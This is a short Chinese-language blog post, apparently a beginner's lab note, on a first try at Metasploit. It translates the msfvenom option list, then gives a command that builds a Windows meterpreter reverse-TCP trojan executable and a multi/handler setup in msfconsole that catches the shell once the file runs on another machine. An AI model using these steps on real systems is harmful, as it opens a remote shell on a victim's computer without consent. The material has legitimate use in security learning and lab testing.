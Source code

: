 ```yaml
---
id: 21
title: 初尝试metasploit
date: 2017-08-11T13:17:06+00:00
author: bfpiaoran
layout: post
guid: http://123.207.248.66/?p=21
permalink: /?p=21
categories:
  - 未分类
---
```

使用msfvneom制作木马首先  
Options:  
-p, –payload 指定需要使用的payload(攻击荷载)。如果需要使用自定义的payload，请使用’-‘或者stdin指定  
-l, –list [module_type] 列出指定模块的所有可用资源. 模块类型包括: payloads, encoders, nops, all  
-n, –nopsled 为payload预先指定一个NOP滑动长度  
-f, –format 指定输出格式 (使用 –help-formats 来获取msf支持的输出格式列表)  
-e, –encoder [encoder] 指定需要使用的encoder（编码器）  
-a, –arch 指定payload的目标架构  
–platform 指定payload的目标平台  
-s, –space 设定有效攻击荷载的最大长度  
-b, –bad-chars 设定规避字符集，比如: ‘\x00\xff’  
-i, –iterations 指定payload的编码次数  
-c, –add-code 指定一个附加的win32 shellcode文件  
-x, –template 指定一个自定义的可执行文件作为模板  
-k, –keep 保护模板程序的动作，注入的payload作为一个新的进程运行  
–payload-options 列举payload的标准选项  
-o, –out 保存payload  
-v, –var-name 指定一个自定义的变量，以确定输出格式  
–shellest 最小化生成payload  
-h, –help 查看帮助选项  
–help-formats 查看msf支持的输出格式列表  
这是一些翻译

在kali 2016 上运行  
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.88.128 lport=4444 -f exe -o /root/Desktop/shell.exe  
设置侦听本机 ip 和侦听端口  
<img src="http://cuijianxiong.top/wp-content/uploads/2017/08/1-1-300x222.jpg" alt="" width="300" height="222" class="alignnone size-medium wp-image-22" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/1-1-300x222.jpg 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/1-1-230x170.jpg 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/1-1-350x259.jpg 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/1-1-480x355.jpg 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/1-1.jpg 620w" sizes="(max-width: 300px) 85vw, 300px" />  
将shell木马 复制到客户机并运行  
使用msfconsole侦听  
msfconsole

use exploit/multi/handler  
set lport 4444  
exploit  
<img src="http://cuijianxiong.top/wp-content/uploads/2017/08/1-2-300x151.jpg" alt="" width="300" height="151" class="alignnone size-medium wp-image-23" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/1-2-300x151.jpg 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/1-2-230x116.jpg 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/1-2-350x176.jpg 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/1-2-480x242.jpg 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/1-2.jpg 620w" sizes="(max-width: 300px) 85vw, 300px" />  
这里和windows cmd 一样了  
<img src="http://cuijianxiong.top/wp-content/uploads/2017/08/1-3-300x104.jpg" alt="" width="300" height="104" class="alignnone size-medium wp-image-24" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/1-3-300x104.jpg 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/1-3-230x80.jpg 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/1-3-350x121.jpg 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/1-3-480x166.jpg 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/1-3.jpg 620w" sizes="(max-width: 300px) 85vw, 300px" />